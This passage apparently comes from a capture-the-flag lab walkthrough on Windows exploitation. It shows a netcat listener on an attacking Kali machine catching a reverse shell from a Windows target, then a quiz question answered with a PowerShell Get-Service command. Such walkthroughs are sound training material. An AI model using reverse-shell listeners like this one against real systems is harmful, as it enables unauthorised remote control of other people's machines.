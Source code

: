 And hopefully on our attacking machine we see:

<pre>
ubuntu@kali:~$ nc -lvnp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.225.45.
Ncat: Connection from 10.10.225.45:49349.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
</pre>
</li>
</ol>

### Questions
- What powershell -c command could we run to manually find out the service name?
    - <code>powershell -c "Get-Service"</code>